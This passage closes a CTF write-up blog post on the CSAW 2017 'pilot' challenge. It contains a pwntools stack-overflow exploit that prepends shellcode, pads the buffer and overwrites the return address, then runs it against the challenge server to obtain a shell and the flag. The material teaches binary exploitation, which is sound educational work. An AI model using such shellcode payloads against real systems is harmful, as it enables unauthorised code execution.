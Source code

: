```python
# prepend shellcode, pad with "A"s and append "Location" address as little-endian, 64-bit address
payload = shell_please + 'A' * (40-len(shell_please)) + p64(int(address, 16))

r.send(payload)
# interact with shell
r.interactive()
```

> The bytes of our payload must be sent in [little-endian](https://en.wikipedia.org/wiki/Endianness#Little-endian){:target="_blank"} format when transmitting over the network. This essentially means that the least significant bit is stored "first". An example can be seen below:
>
>|<b>Big-Endian|<b>Little-Endian</b>
>|0x41424344| 0x44434241
>| "ABCD"|  "DCBA"
{: .prompt-tip }

With our Python script ready for deployment, let's take it for a spin and hope for a shell:

```bash
./pilot.py
[+] Going remote...
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Target Address: 0x7ffe6549f700
[*] Switching to interactive mode
[*]Command:$
```

At this point, we're expecting a shell after the execution of /bin/sh. Let's confirm that we have a connection to the target host by issuing the 'whoami' command.

```bash
[*]Command:$ whoami
pilot
```

Great, so we've confirmed that we have a shell on the target host and we're running within the context of the 'pilot' user. Now, let's poke around in the current directory to locate the flag.

```bash
ls
flag
pilot
```

Do you see what I see? Let's investigate the contents of the 'flag' file within the current directory.

```bash
$cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```

Hopefully this served as a decent refresher or informative introduction to some fundamental binary exploitation concepts. You can find the rest of the challenges for this year's CSAW quals [here](https://github.com/isislab/CSAW-CTF-2017-Quals){:target="_blank"}, but <span style="color:red"><b>BE WARNED THAT THESE CONTAIN THE SOLUTIONS AND FLAGS</b></span>. As always, feel free to reach out via [Twitter](https://twitter.com/0xdeadbeefJERKY){:target="_blank"} with any questions/comments.

Happy (hacking\|hunting)!
